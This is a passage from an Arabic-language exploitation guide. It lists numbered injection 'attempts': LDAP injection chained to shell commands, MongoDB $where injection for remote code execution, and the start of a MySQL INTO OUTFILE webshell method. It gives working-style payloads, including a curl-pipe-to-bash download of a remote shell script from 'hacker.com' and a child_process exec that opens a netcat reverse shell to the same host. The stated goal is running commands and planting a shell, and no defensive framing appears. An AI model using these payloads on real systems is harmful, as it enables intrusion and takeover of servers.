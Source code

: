 ### ⚙️ الفكرة:
بعض التطبيقات تمرر استعلامات LDAP بشكل غير آمن وتُنفذ الأوامر في shell.

### 💥 الاستغلال:
مثال على LDAP Injection مع تنفيذ أمر:

```ldap
username=*)(|(uid=*))%00 | echo "malicious code"; #
```

أو:
```ldap
admin)(|(objectClass=*))%00 | curl http://hacker.com/shell.sh | bash
```

### 📌 النتيجة:
- تنفيذ أوامر خارجية.
- إمكانية رفع shell.

---

# 🧪 المحاولة #6: NoSQL Injection in MongoDB for RCE

### ⚙️ الفكرة:
بعض الأنظمة تستخدم استعلامات NoSQL بطريقة سيئة جدًا مما يسمح بتجاوز المنطق الأمني وحتى تنفيذ أوامر.

### 💥 الاستغلال:
إذا كان التطبيق يستقبل استعلام كـ JSON:

```json
{
  "$where": "function() { sleep(5000); return true; }"
}
```

أو:
```json
{
  "$where": "eval('require(\"child_process\").exec(\"nc -e /bin/bash hacker.com 4444\")')"
}
```

> (يحتاج إلى وجود Node.js backend)

---

# 🧪 المحاولة #7: File Upload + Database Misconfiguration

### ⚙️ الفكرة:
بعض أنظمة قواعد البيانات تسمح بكتابة ملفات على الخادم (مثل MySQL INTO OUTFILE)، ويمكن استخدام هذا لإنشاء Webshell.
